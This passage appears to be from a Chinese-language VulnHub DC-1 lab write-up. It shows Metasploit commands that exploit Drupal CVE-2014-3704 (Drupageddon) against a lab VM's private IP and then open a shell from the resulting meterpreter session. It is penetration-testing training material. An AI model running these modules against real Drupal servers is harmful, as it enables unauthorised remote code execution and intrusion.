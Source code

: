 漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Drupal)

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135
run
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/2.png)

可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功,就不一一展示了

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/3.png)
